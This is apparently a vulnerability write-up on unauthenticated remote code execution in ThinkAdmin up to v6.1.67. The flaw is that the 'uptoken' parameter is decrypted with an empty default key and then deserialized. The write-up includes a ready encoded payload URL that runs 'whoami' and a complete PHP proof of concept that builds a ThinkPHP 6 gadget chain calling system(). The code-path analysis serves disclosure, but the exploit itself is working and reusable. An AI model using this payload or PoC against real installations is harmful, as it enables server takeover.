## Unauthorized RCE in ThinkAdmin <= v6.1.67

### **System Installation**

#### **1、Install via Composer:** (Recommended method, installs only the admin module by default)

##### Create a project (must be executed in a directory with English characters)

`composer create-project zoujingli/thinkadmin`

##### Navigate to the project root directory

`cd thinkadmin`

##### Initialize and install the database

##### By default, an SQLite database is used. If you want to use another database, modify the configuration before executing the following command:

`php think migrate:run`

##### Install the WeChat management module

`composer require zoujingli/think-plugs-wechat`

#### **2、Install via source code:** (Installs both admin and wechat modules by default)

##### Download the project (must be executed in a directory with English characters)

`git clone https://github.com/zoujingli/ThinkAdmin`

`git clone https://gitee.com/zoujingli/ThinkAdmin`

##### Navigate to the project root directory

`cd ThinkAdmin`

##### Install project dependencies

`composer install --optimize-autoloader`

### **Testing Process**

**Test Environment:**
phpstudy Xiaopi Panel
PHP Version: php7.3.4

After setup, access:
`http://192.168.188.2:93/admin/login.html`



Constructing POC for Access:

http://192.168.188.2:93/admin/api.plugs/script?uptoken=eyJpdiI6ImVkZ3R1bmF0aXB6Y3k2YTgiLCJ2YWx1ZSI6InA0ZEoyM25DSVhicEhtOThQUlh0TEtVTVF6ZUxmKzN2NHgzXC93RU1tQ2t6Y0doQ2E3dGZLUWpudmpMakNKVUJSQnV5dFRJNFwvREFnU1hjMFRldVdXNTFJQzgxTTRvTkhodERlV2d3ak9rY25sdndWRkQ1NVFISm1EeHZEY3VOWWF2QjUzSWR2UlZJOFliZHBaZ0w1akV1MnBvUW5ZNm1jNTJGSzBNRUNuM0V0ZzAzdjFLQ3Q4T2FKTDRLR1BYa3lpeVUyckMwM1B5dUwwblhGeEluM0ZFVGxkUlVFMWRaXC9WQW9IcTRlWnJtSVU3VHdCZERVVDlxcGdrNG9kMTFGcDB6QkI0QlFTXC9KaG5abkdUODNJSytYMTdkMitnRWpvXC9zMDdPbFp6RUFOS3hUSjRYcnNGN09yOGJiamxXeTN3d2NRZVl4bGdXMzlqajlwNGZQWmRoXC9RaUIwMTl2XC9nNHZNU1wvUUxMZTZhY0NzbjhmcFhLU3RCcjRkaEswcGxiNHhMclhsM1prdUllbEF4dVV5YnNRejR2cjJZVmJCTG9pVWlPV3VNRVJLc0FzZkp2cVRrQXhnMGI3YXQrRFF0aWM4YzhiYngzTCtQSzd3NHh5TldcL1pyOElaTEhnblVpNzZhblhkNHVFWWlwXC9WeFRwazJCT1UyQmpoMEpKRlJzUXRvVFBEeFIzZUZ4dmcxN3NaZXRvUkJSOEthbHJRNzgrNVMwY2NXS2xlWmJLMUlnYWcwSW01YWF2cHRhTkxXbjFndGxXczdFMDZjbGFiRzJWd1R3cXAzckZpS0xCNXgwMHFtQ1ZXNXN2R3ZZdXlyQ2tUY0JmejZFbzN3aTJUTlFOenhBcCs4Tmp4V0d1cE1yZ095XC94QjZ6UmxPejluXC9ZYXpcL0UzQ1BPOUlnc2dUM1U1UGNaYnpyZUwzUXRxNjAwM0ppdk8rWWlSWktDdDRFXC9yUFgzb1dPVnhheTNTMjZFRHJtc04ycXgraVBFVkpheGVVN2JKVEg0VGJsRFwvNmxKZkwzb2dLbWF1YWdzMm9rOVpJcXVGK3ZFZXZIZG50eFlXRXpLVTN2N0RWZFZWVkd5NzFCYk9STlNxQktCVHcyUkhxZEwifQ

Access as follows, executed the whoami command:



### **Vulnerability Analysis**

**Vulnerable code location:**
`app/admin/controller/api/Plugs.php` at `#script`



At line 69, a `get` request receives a value for `uptoken`. It then moves to line 71, following the `withUploadUnid` method, which is located at `vendor/zoujingli/think-library/src/service/AdminService.php`.

As long as `uptoken` is not empty, it enters the `else` statement, meaning it will proceed to the `CodeExtend::decrypt` method. There’s also a `sysconf('data.jwtkey')` that we will review later.



Following the `CodeExtend::decrypt` method, this essentially performs AES decryption and will execute a deserialization operation on the decrypted data. The value of `$data` is fully controllable, and after decryption, it will restore our encrypted data.



However, there is also a value, `sysconf('data.jwtkey')`, which is the second parameter of the `CodeExtend::decrypt` method.

Following `sysconf`, it will call `return SystemService::get($name);`.



Located at `vendor/zoujingli/think-library/src/service/SystemService.php`, let's proceed to examine `SystemService::get`.



There is a `sysvar` method here that checks if the `swap` array contains the value for `think-library-config`. By default, after setting up the system, this value is not present, so it will return `$default`, which is an empty string.



Then, at line 129, it will query the database for this value. When we set up a new system, the system parameters will have a default key, but this key is not stored in the database. If the administrator does not click "Save" on this page, the key retrieved by default will be empty.

As a result, an attacker can perform unauthorized RCE (Remote Code Execution) and, if they obtain the key, they can still carry out attacks. When the database has this value, it will be stored in the `swap` array.



Where there is a decryption function `CodeExtend::decrypt`, there must also be an encryption function. Find the encryption function `CodeExtend::encrypt`.

By using this encryption function to encrypt our payload and passing it in, we can achieve deserialization.



To facilitate the call in the POC, I created a new method called `encryptpro` in this file, removing the `serialize`. The subsequent POC will use this method to generate the payload.



``public static function encryptpro($data, string $skey): string`
 `{`
   `$iv = static::*random*(16, 3);`
   `$value = openssl_encrypt($data, 'AES-256-CBC', $skey, 0, $iv);`
   `return static::*enSafe64*(json_encode(['iv' => $iv, 'value' => $value]));`
 }`

Finally, combining the deserialization chain of ThinkPHP 6, we obtain the following POC (place it in the `public` directory of the ThinkAdmin installation).

`<?php`
 `namespace think {`
 `// Model 抽象类`
   `abstract class Model {`
 `// 需要用到的关键字`
     `private $lazySave = false;`
     `private $data = [];`
     `private $exists = false;`
     `protected $table;`
     `private $withAttr = [];`
     `protected $json = [];`
     `protected $jsonAssoc = false;`
     `public function __construct($obj=''){`
       `$this->lazySave = true;`
       `$this->data = ['whoami'=>['whoami']];`
       `$this->exists = true;`
       `$this->table = $obj;`
       `$this->withAttr = ['whoami'=>['system']];`
       `$this->json = ['whoami'];`
       `$this->jsonAssoc = true;`
     `}`
   `}`
 `}`
 `namespace think\model {`

   `use think\Model;`
   `class Pivot extends Model {`
   `}`
 `}`

 `namespace {`
   `require_once '../vendor/zoujingli/think-library/src/extend/CodeExtend.php'; //注意这里写的是相对路径`
   `use think\admin\extend\CodeExtend;`
   `use think\model\Pivot;`
   `class test extends CodeExtend`
   `{`
     `public function jia($value)`
     `{`
       `$data = urldecode($value);`
 `//      echo $data. ' ';`
       `$result = self::*encryptpro*($data, '');`
       `echo $result . ' ';`
     `}`
   `}`
   `$pop = new Pivot(new Pivot());`
   `$value = urlencode(serialize(($pop)));`
   `$instance = new test();`
   `$instance->jia($value);?>`

After execution, the payload is generated, which is the value of `uptoken`.